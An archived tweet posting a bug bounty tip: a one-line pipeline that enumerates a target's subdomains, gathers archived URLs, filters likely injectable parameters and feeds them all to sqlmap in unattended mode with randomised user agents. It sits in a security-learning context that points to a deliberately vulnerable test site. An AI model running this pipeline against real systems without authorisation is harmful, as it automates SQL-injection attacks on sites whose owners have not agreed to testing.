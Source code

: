 <td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1357752441161326592+pu+img+z_msRUf1WCpePtQz.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1357752441161326592/pu/img/z_msRUf1WCpePtQz.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>231</code></td>
<td>Favorites: <code>1008</code></td>
</tr></table>

---

# ofjaaah
**https://twitter.com/ofjaaah/status/1357704709021302787 _at 2021-02-05 14:56:42_**
<blockquote>
💉 findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli &gt;&gt; sqli ; sqlmap -m sqli --batch --random-agent --level 1

https://t.co/WXQZxQgSK2

https://t.co/SP7SjT7cpE 🦈

#bugbounty #bugbountytips #SqlInjection #KingOfBugbounty https://t.co/P4eXfo1cpA
</blockquote>

* http://testphp.vulnweb.com
* https://github.com/KingOfBugbounty/KingOfBugBountyTips
* https://m.do.co/c/703ff752fd6f
